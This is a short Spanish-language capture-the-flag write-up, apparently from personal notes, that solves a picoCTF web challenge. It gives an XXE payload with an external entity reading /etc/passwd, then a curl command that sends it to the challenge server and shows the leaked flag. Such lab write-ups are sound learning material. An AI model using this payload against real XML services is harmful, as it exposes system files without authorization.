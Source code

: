 #notas_hacking #web
# Reto
## Descripción
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:58371/)
## Solución
Si es vulnerable a `XXE` este `payload` intenta leer el archivo `/etc/passwd` en sistemas Linux y devuelve una respuesta si lo es.
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
	<!ENTITY xxe SYSTEM "file:///etc/passwd" >
	]>
	<data>
		<ID>
			&xxe;
		</ID>
	</data>
```
por terminal
```bash
┌──(kali㉿kali)-[~/pico]
└─$ curl -s -k -X POST http://saturn.picoctf.net:58371/data  -H 'Content-Type: application/xml'   --data-binary $'<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE foo [\x0d\x0a  <!ELEMENT foo ANY >\x0d\x0a  <!ENTITY xxe SYSTEM \"file:///etc/passwd\" >\x0d\x0a]> <data><ID>&xxe;</ID></data>' | grep pico
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_0dcf926e}
```
## Notas

## Referencias
